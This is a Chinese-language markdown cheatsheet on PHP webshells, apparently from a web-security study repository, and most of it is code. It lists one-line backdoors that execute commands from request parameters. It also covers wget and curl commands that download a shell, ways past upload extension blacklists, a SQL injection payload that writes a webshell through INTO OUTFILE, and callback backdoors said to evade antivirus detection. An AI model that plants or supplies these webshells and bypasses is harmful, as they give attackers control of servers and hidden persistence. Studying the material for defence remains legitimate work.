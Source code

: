 # Webshell
一種以網頁形式存在的命令執行環境，也稱作**網頁後門**。  
黑客可以通過瀏覽自己放的後門，得到一個shell以操控伺服器。  
1. 大馬  
程式較龐大，調用system func()，通常會以加密隱藏代碼。   
2. 小馬  
程式小巧   
3. 一句話木馬  
一段小代碼，可做插入，變化多樣。  
*  [How works](#how-works)  
*  [Command injection](#command-injection)  
*  [Webshell cheatsheet](#webshell-cheatsheet)  
*  [Bypass blacklist extension](#bypass-blacklist-extension)  
*  [SQL inj to webshell](#sql-inj-to-webshell)  
*  [Don't delete my webshell](#dont-delete-my-webshell)
*  [Reference](#reference)

# How works
我們可以通過網站自帶的文件上傳功能將webshell送上去，而文件裡的代碼由server解析進一步執行!  
1. 尋找上傳點   
* echo 一個shell到文件中執行  
* 下載 shell  
2. 繞過上傳限制 進行上傳  
* 直接上傳  
* 繞過  

# Command injection
```php
// match one character
cat fla?
cat ./???sword

// match multiple character
cat f*

// bypass space 
cat${IFS}flag
```
   
# Webshell cheatsheet
```php
// 回顯
<?php system('ls'); ?>
<?php system(ls); ?>
<?php system($_GET['cmd']); ?>
<?php system($_GET[1]); ?>

<?php passthru('ls'); ?>


// 不回顯
<?php shell_exec('echo 1>1');        // 1=echo 1>1
<?php shell_exec('>1');            // 1=>1

<?php shell_exec('wget -O 1.php url');    // download shell
<?php shell_exec('curl -o 1.php url');    // 預設下載index.html

<?=`$_GET[1]`;                   // <?= is used to shorten the <?php echo `blah`;
// ``就像exec不會直接顯示結果，需要echo
echo `$_GET[1]`;&1=ls


// 文件包含漏洞
include$_GET[1];             // 中間空格可以省略

// 思路：寫入base64編碼過的shell檔，再進行解碼  <環境www>
$_GET[1](file,chracter,8);&1=file_put_contents .....
include$_GET[0];&0=php://filter/read=convert.base64-decode/resource=file


// PHP代碼執行
<?php eval('echo `ls`;');       // eval裡的PHP代碼必須加;
<?php assert('phpinfo();');    // assert裡的PHP代碼可以不加;

<?php preg_replace("/\[(.*)]/e",'\\1',$_GET['str']);  // ？str=[phpinfo()]
// 必須有匹配才會執行
// PHP 5.5起，會產生 E_DEPRECATED 錯誤
// PHP 7.0.0後，必須使用 preg_replace_callback() 代替


// 思路：延伸數組＋回調函數 php 5.4以後的特性
// 回調後門 多可以避免木馬查殺  
// 參考下方reference
?1[]=blah&1[]=system();&2=assert     
param=usort(...$_GET);
```
長度限制思路：  
* 用檔名拼湊成命令,再一次ls進一個shell script [detail](https://shinmao.github.io/2018/02/20/A-tiny-shell/)

[system v.s. exec v.s. shell_exec](https://blog.longwin.com.tw/2013/06/php-system-exec-shell_exec-diff-2013/)  
**exec()和shell_exec()我們都會搭個echo**  
[這是一篇很屌的php lib exp分析](https://stackoverflow.com/questions/3115559/exploitable-php-functions)

# Bypass blacklist extension
文件解析漏洞  
除了```.php```，通過conf模塊的regular expression：  
* ```.php3```  
* ```.php4```  
* ```.php5```  
* ```.php7```  
* ```.pht```  
* ```.phtml```  
以上副檔名也都會被解析成```.php```  
* ```.php.xxx```  
在古老的版本中也存在**多後綴名**的繞過方式  
原理：apache2特性由右至左解析，遇到不認識的無法解析就像左跳！  
* ```.php/.``` 
值得注意的是 這招無法覆蓋舊檔  
原理：php源碼中可以看到用遞歸的方式將檔名結尾的```/.```都去掉！  
[源碼審計](https://github.com/shinmao/Web-Security-Learning/blob/master/Webshell/apache2_php5.conf)

# SQL inj to webshell
MYSQL:  
```
select into outfile(dumpfile)  // mysql write to document
```  
E.G.  
```  
union select 1,2,"<? system($_GET['fuck']) ?>" into outfile "://path"
```

# Dont delete my webshell
筆記一些好用的木馬免殺  
```php
<?php
$e = $_REQUEST['e'];
register_shutdown_function($e, $_REQUEST['pass']);
// 結束時callback
// ?e=assert&pass=phpinfo();

<?php
$e = $_REQUEST['e'];
declare(ticks=1);
register_tick_function ($e, $_REQUEST['pass']);
```

### Reference  
* [千变万化的WebShell-Seebug](https://paper.seebug.org/36/)
* [七字短shell](http://wonderkun.cc/index.html/?p=524%EF%BC%88%E9%80%9A%E8%BF%87)  
* [PHP MANUAL Assert](http://php.net/manual/en/function.assert.php)  
* [PHP MANUAL Usort](http://php.net/manual/en/function.usort.php)  
* [PHP MANUAL 延長數組](http://php.net/manual/zh/migration56.new-features.php)
* [P師傅木馬免殺](https://www.leavesongs.com/PENETRATION/php-callback-backdoor.html)  
* [stackoverflow Exploitable PHP functions](https://stackoverflow.com/questions/3115559/exploitable-php-functions)
* [Ali0thNotes PHP代码审计归纳](https://github.com/Martin2877/Ali0thNotes/blob/master/Code%20Audit/PHP%E4%BB%A3%E7%A0%81%E5%AE%A1%E8%AE%A1%E5%BD%92%E7%BA%B3.md)
